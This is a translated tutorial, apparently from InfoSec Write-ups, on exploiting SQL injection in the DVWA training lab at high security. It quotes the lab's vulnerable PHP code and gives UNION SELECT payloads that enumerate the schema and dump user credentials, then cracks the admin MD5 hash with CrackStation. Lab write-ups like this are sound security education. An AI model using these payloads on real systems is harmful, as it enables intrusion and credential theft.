









# 用 SQL 注入攻击黑客！DVWA 高安全性— StackZero

> 原文：<https://infosecwriteups.com/hack-with-sql-injection-attacks-dvwa-high-security-stackzero-713638840515?source=collection_archive---------1----------------------->



# 介绍

嗨读者！在这篇文章中，我想涵盖 SQL 注入的另一个方面，我将通过利用具有高安全级别的 DVWA 来展示它。像往常一样，在这个博客中，这个话题将以一种实用的方式来处理。在测试 web 应用程序时要强调的概念是，SQL 注入可以出现在每个应用程序的领域中。
本教程将带你一步步了解 DVWA(该死的易受攻击的 Web 应用程序)中的 SQL 注入。

对你来说，自然的副作用将是提高你的 SQL 注入知识。
我建议阅读并复制(也许是尝试预测下一步)我将向您展示的内容！

如果您认为对 SQLi 的理解有差距，我邀请您阅读以前的文章。

这里列出了所有关于 SQL 注入的文章，以便快速浏览:

# 带内 SQL 注入

*   [SQL 注入:你需要知道的事情](https://medium.com/codex/sql-injection-what-you-need-to-know-stackzero-abc80bc1ea5e)
*   通过入侵易受攻击的应用程序，在实践中学习 SQL 注入！
*   [如何用 SQL 注入攻击进行黑客攻击！DVWA 低安全性](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)
*   [黑客用 SQL 注入攻击！DVWA 中等安全性](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)
*   [黑客用 SQL 注入攻击！DVWA 高安全性](/hack-with-sql-injection-attacks-dvwa-high-security-stackzero-713638840515)

# 盲人 SQL 注入

*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 3 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-3-stackzero-911545003f01)

# 进攻计划和我们能学到什么

在之前的文章中，当我们利用同一个安全级别为[低](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)和[中](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)的漏洞时，很容易理解我们应该把漏洞放在哪里。
我们必须从 DVWA 的这个阶段吸取的教训是，漏洞可能无处不在，所以不要将研究局限于查询字符串！
在这种情况下，我将使用不同的方法来通过关卡，我们来看看代码。

实际上，步骤和我们在[低安全级别](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中看到的一样，所以我想让这篇文章更有用一点。

开始之前，我们需要了解一些底层协议。
[HTTP](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP_application_session) 是一个无状态协议，无论如何，许多 web 应用程序需要保持[会话](https://en.wikipedia.org/wiki/Session_(computer_science)#Server-side_web_sessions)才能正常运行，因此它们可以使用不同的方法:

*   服务器端会话
*   客户端会话

总的来说，我们不能将我们的研究局限于输入参数，而是甚至包括我们研究中的会话。

# 弄脏我们的手，在高安全性的 DVWA 上开发 SQL 注入

在做这项工作之前，我们需要打开我们的 [Kali VM](https://medium.com/@stackzero/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes-stackzero-37fb019261cb) 并按照[低安全性教程](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中描述的相同步骤运行 DVWA。我们已经做过了，所以我不再赘述。

正如我所承诺的，让我们快速看一下后端代码。
为此:

*   登录 DVWA
*   设置高安全性级别
*   点击左边的 SQL 注入链接
*   如图所示，单击右下角带有文本“查看源代码”的按钮:



您应该会在弹出窗口中看到这段代码

```
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?>
```

让我们关注这三行:

```
if( isset( $_SESSION [ 'id' ] ) ) { 
// Get input 
   $id = $_SESSION[ 'id' ];
```

输入被存储到 *$id* 变量中，没有转义，然后放入下面的查询中:

```
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

这正是我们在上一段所说的，在这种情况下，漏洞是在会话的变量。
现在概念清楚了，让我们点击显示*“点击此处更改您的 id”*的链接，开始我们的 SQL 注入漏洞利用吧！

# SQL 注入利用了 DVWA 的高安全级别

理解了差异之后，关于[低](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)电平就没有什么新的了。

这是我们的输入字段，我们可以在其中插入恶意查询！



首先，我们需要知道查询中涉及的列数。
在所有之前的教程之后，我们完全知道如何去做，甚至在这种情况下,“ORDER BY”技术也有它的位置！

让我们试着一次提交一个，直到我们得到一个错误！

```
1' ORDER BY 1 # 
1' ORDER BY 2 # 
1' ORDER BY 3 #
```

当我们键入时，我们得到下面的行:`1' ORDER BY 3 #`

```
Something went wrong.
```

当我们按索引为 3 的元素排序时，就会出现错误，这意味着我们只有两列！

如您所见，错误仍然存在，您无法再次打开该页面，为了解决这个问题，请按照下列步骤操作:

*   从 DVWA 注销
*   清除所有的 cookies(在 Firefox 上按 SHIFT+F9，然后右键点击左边的菜单，删除所有的 cookies)。
*   再次登录 DVWA

从现在开始，我们必须按照 DVWA 中关于 SQL 注入的[第一教程](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中的步骤来做。

我们可以检查 DBMS 是否是 MySQL:

```
1' OR 1=1 UNION SELECT 1, VERSION()#
```

而结果告诉我们，我们用的是 MySQL (Version()是 MySQL 函数):



为了得到更清晰的结果，我们需要知道数据库的名称:

```
1' OR 1=1 UNION SELECT 1,DATABASE() #
```

正如我们在最后一行看到的，名字是" *dvwa* ":



# 最后信息联合选择 SQLi 技术

现在是时候将我们的知识付诸实践，并使用 UNION SELECT 技术来查看所有的数据库结构信息和数据。

让我们列出所有的表，并隔离出我们需要继续攻击的表。

```
1' OR 1=1 UNION SELECT 1,table_name 
FROM information_schema.tables 
WHERE table_type='base table' AND table_schema='dvwa' #
```

从图像中，我们可以猜测我们感兴趣的表是名为“ *users* ”的表。



我们需要的下一个信息是列的名称。
我们可以注入的可能查询之一是:

```
1' OR 1=1 UNION SELECT 1, column_name 
FROM information_schema.columns 
WHERE table_name='users' #
```

这个输入将给出一个列的列表，其中两列引起了我们的注意:

*   *用户*
*   *密码*



现在我们已经获得了获取凭据所需的所有信息，所以让我们通过输入以下查询列出用户及其密码:

```
1' OR 1=1 UNION SELECT user, password FROM users #
```

结果正如我们所料:



我突出显示了似乎更有可能受到攻击的凭证，即管理员凭证。

密码似乎是某个[哈希函数](https://en.wikipedia.org/wiki/Hash_function)的结果，所以我们需要更进一步！

# 破解 MD5 哈希密码

破解散列密码的最好和最快的方法是使用预先计算的哈希表。我建议你试试在线工具 [CrackStation](https://crackstation.net/) ，让我们看看在这个应用程序中复制粘贴密码会发生什么！



找到密码，结果是“*密码*”，这样我们就完成了，应用程序通过了！

我希望你喜欢这篇文章，如果是的话，请继续关注更多这样的内容！
我还建议你做一些练习，例如:

*   通过尝试一些查询的变体来获得相同的结果
*   通过尝试猜测其他用户的凭证
*   通过用 python 复制相同的过程，正如我们在 [DVWA 中等安全](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)级别中看到的
*   通过编辑查询，以消除干扰并仅获得想要的结果，正如我们在教程 [DVWA 中等安全性](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)中所做的那样。

下一篇文章再见！

*原载于 2022 年 9 月 2 日 https://www.stackzero.net*[](https://www.stackzero.net/sql-injection-dvwa-high/)**。**

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*